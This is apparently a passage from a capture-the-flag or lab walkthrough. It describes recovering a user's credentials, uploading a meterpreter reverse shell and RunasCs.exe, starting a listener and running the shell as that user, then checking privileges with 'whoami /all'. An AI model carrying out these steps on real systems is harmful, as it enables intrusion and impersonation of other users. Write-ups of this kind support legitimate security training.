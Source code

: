 - Got credentials:
**alaading : \<password\>**

- Upload a new meterpreter reverse shell
- Upload RunasCs.exe
- Set up listener

- Run:

```bash
.\RunasCs.exe alaading <password>".\reverse.exe"

```

![image22](../resources/d707ede869a84f3c8b2a59093f9d2d1c.png)


![image23](../resources/d799f6e7840044c0abad64a41b5c7dc4.png)


![image24](../resources/7f293c6f67084a9097d77f5d6450a446.png)

```bash
whoami /all

```
